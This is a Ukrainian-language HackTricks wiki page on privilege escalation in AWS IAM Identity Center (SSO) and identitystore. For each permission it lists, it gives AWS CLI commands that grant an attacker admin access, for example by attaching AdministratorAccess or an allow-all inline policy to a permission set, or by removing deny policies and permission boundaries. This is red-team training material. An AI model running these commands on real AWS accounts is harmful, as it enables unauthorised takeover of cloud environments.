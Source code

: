 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

Для отримання додаткової інформації про AWS Identity Center / AWS SSO перегляньте:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Зверніть увагу, що за **замовчуванням** лише **користувачі** з правами **з** **Управлінського облікового запису** зможуть отримати доступ і **керувати IAM Identity Center**.\
Користувачі з інших облікових записів можуть це дозволити лише якщо обліковий запис є **делегованим адміністратором.**\
[Перегляньте документацію для отримання додаткової інформації.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Скидання пароля~~

Легкий спосіб підвищити привілеї в таких випадках, як цей, полягає в тому, щоб мати дозвіл, який дозволяє скинути паролі користувачів. На жаль, можливо лише надіслати електронний лист користувачеві для скидання його пароля, тому вам знадобиться доступ до електронної пошти користувача.

### `identitystore:CreateGroupMembership`

З цим дозволом можливо додати користувача до групи, щоб він успадкував усі права, які має група.

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Зловмисник з цим дозволом може надати додаткові дозволи до Набору Дозволів, який надано користувачу під його контролем

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Зловмисник з цим дозволом може надати додаткові дозволи до Набору Дозволів, який надано користувачу під його контролем

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Зловмисник з цими дозволами може надати додаткові дозволи до Набору дозволів, який надано користувачу під його контролем.

{% hint style="warning" %}
Щоб зловживати цими дозволами в цьому випадку, вам потрібно знати **назву політики, що керується замовником, яка є в усіх облікових записах**, які будуть під впливом.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Зловмисник з цим дозволом міг би надати Набір дозволів користувачу під його контролем для облікового запису.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Повертає короткострокові облікові дані STS для вказаного імені ролі, яка призначена користувачу.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Однак вам потрібен токен доступу, якого я не впевнений, як отримати (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Зловмисник з цим дозволом може видалити асоціацію між керованою політикою AWS та вказаним набором дозволів. Можливо надати більше привілеїв через **від'єднання керованої політики (політика відмови)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Зловмисник з цим дозволом може видалити асоціацію між політикою, що керується замовником, та вказаним набором дозволів. Можливо надати більше привілеїв через **від'єднання керованої політики (політики заборони)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

Зловмисник з цим дозволом може видалити дозволи з вбудованої політики з набору дозволів. Можливо надати **більше привілеїв, відключивши вбудовану політику (політика заборони)**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Зловмисник з цим дозволом може видалити межу дозволів з набору дозволів. Можливо надати **більше привілеїв, видаливши обмеження на набір дозволів**, наданий з межі дозволів.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
